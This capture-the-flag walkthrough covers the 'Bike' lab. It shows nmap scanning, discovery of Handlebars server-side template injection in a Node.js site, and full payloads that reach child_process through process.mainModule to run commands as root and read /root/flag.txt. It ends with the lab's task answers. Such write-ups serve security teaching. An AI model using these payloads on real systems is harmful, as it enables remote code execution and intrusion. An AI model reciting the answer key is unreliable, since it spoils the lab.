# Bike      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```



`80/tcp` is open. Service is `http`.

`22/tcp` is open. Service is `ssh`.

After pasting `target ip` into the browser we can see the website.



### Checking the website

There is not much we can do. Let's paste some `test` e-mail and see what happens.




The output shows that any input in the `Email field` is reflected back to the user upon page reload. This suggests potential for exploitation. However, we first need to identify the frameworks and coding languages used by the website's backend.

Let's use `Wappalyzer`.



We can see, that erver is built on `Node.js` and is using the `Express`
framework.

`Node.js` web backend servers frequently utilize software known as `Template Engines`.

`Template engines` are tools that help display dynamically generated content on web pages. They replace placeholders within a template file with actual values and present these values to the client, such as a user accessing the page through their browser. For instance, creating a user profile page with details like usernames, emails, and birthdays is challenging with static HTML for multiple users. A template engine uses a static `template` containing the basic structure of the profile page and dynamically fills in user-specific information to display it to the user. However, template engines can have vulnerabilities, such as `Server-Side Template Injection (SSTI)`, which can be exploited if not properly secured.

### SSTI

`Server-Side Template Injection (SSTI)` is a vulnerability that occurs when user input is improperly handled and directly embedded into a server-side template. Templates are used in web applications to dynamically generate HTML, XML, or other text-based formats. If user input is not properly sanitized, it can be embedded directly into a template, allowing an attacker to inject malicious code. This injected code is then executed by the server's template engine, leading to potential exploits such as remote code execution, data exfiltration, or denial of service. `SSTI` is particularly dangerous because it can give attackers direct access to the server's execution environment, allowing them to perform actions with the same privileges as the web server.

We are goint to use: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

First of all, let's check if target site is susceptible at SSTI.

Paste:

```
{{7*7}}
```


and submit.



Seems like it worked.

Now we know that the `Template Engine` is `Handlebars` and it is located in the `/root/backend` directory.

It's perfect information because on `Hacktricks` we have this:



### Burpsuite

Intercept the request.



and send it to `Repeater` by combination of `Ctrl + R`.



Now, it's time to use:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

#### Decoder

Before pasting the `hacktricks` exploit under `Handlebars (NodeJS)`, we should URL encode it. In this form, web server sometimes cannot read it.

Go to `Decoder`, paste the exploit and mark encode as `URL`.



Copy it.

It is time to paste it into `Repeater` and `Send` it.



Error. `require is not defined`.

### Globals

In computer programming, `globals` are variables that are accessible throughout the entire program. They are declared outside of all functions, classes, or methods, giving them a global scope. This means they can be read and modified by any part of the code, making them universally available. `Globals` are typically defined at the beginning of a program, before any functions or classes. While they can be useful for sharing data across various parts of a program, overusing `globals` can lead to code that is difficult to maintain and debug due to the potential for unintended side effects and dependencies.

In Node.js, `require` is not in the global scope because it is designed to be local to each module. This promotes modularity and encapsulation, ensuring that modules do not interfere with each other's dependencies. By keeping `require` scoped to the module level, Node.js prevents conflicts and potential security issues that could arise from having a global `require` function accessible from anywhere in the application.

Go to: https://nodejs.org/api/globals.html

Let's focus at the `process`.

It is time to modify previous payload:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```



The response did not show an error, and we can see that the `[object process]` was included. This confirms that the `process` object is accessible.

Reviewing the documentation for the `process` object, we discover that it has a `mainModule` property. Although this property has been deprecated since Node.js version 14.0.0, deprecation does not mean it is inaccessible.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```



No error, so we can keep modifing it.

I found this: https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet and it was very helpful.

I customized one payload to our needs.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```



It works. Great information, we can execute commands.

### Get the flag

Let's look for a flag. 

First of all, I suggest to try with `ls`.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('ls')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```



Nothing interesting. 

From the previous attempts we know that web server is running in the context of the
`root` user. Knowing it, we are goint to list all files and folders in the root directory.

To do that, type:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('ls /root')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```



Flag is there. Now is time to see it.

Final payload:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```


### Paste the flag



## Answers

### Task-1: What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high.

22,80

### Task-2: What software is running the service listening on the http/web port identified in the first question?

Node.js

### Task-3: What is the name of the Web Framework according to Wappalyzer?

Express

### Task-4: What is the name of the vulnerability we test for by submitting {{7*7}}?

Server Side Template Injection

### Task-5: What is the templating engine being used within Node.JS?

Handlebars

### Task-6: What is the name of the BurpSuite tab used to encode text?

Decoder

### Task-7: In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use?

URL

### Task-8: When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error?

require

### Task-9: What variable is traditionally the name of the top-level scope in the browser context, but not in Node.JS?

global

### Task-10: By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user?

root

### Submit root flag

A lot of new knowledge.